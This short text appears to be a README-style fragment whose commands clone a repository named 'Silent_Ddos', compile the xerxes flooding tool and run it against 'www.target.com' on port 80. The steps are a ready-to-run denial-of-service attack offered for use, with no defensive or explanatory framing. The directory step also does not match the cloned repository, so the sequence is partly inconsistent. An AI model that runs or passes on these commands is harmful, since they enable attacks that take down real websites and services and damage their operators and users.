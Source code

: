 apt-get install git
git clone https://github.com/RaidiAmzar/Silent_Ddos
apt-get install clang
cd /xerxes/
gcc xerxes.c -o xerxes
./xerxes www.target.com 80
